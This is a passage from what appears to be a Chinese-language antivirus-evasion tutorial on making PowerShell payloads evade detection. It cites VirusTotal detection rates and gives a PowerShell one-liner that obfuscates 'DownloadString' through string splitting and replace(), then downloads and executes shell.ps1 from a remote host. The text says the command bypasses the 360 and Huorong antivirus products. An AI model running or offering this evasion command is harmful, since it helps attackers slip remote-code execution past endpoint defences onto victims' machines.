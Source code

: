 virustotal.com中`jiami.ps1`文件3/58个报毒，比法1中原生态的免杀能力大大提高。

![25be5ec093623292f62af95a210ab9d2](images/2020.04-bypass-06/15.png)

## 3.4 法4：ps1行为免杀(VT免杀率0/58)

参考我们团队`诺言`大佬的文章：`https://mp.weixin.qq.com/s/lhg71lVHfp9PY1m8sYXA_A`

虽然ps1代码自身免杀，但在用powershell执行远程下载或执行shellcode时，很容易触发杀软行为规则。

![6ff0e31636049c9f529da802d4dafeed](images/2020.04-bypass-06/16.png)

对于IEX这种方便快捷的方式直接运行会被360拦截。可尝试从语法上简单变化。主要是对DownloadString、http做一些处理。

比如利用replace替换函数，可以bypass。

```
powershell -NoExit "$c1='IEX(New-Object Net.WebClient).Downlo';$c2='123(''http://10.211.55.2/shell.ps1'')'.Replace('123','adString');IEX ($c1+$c2)"
```

可过360和火绒
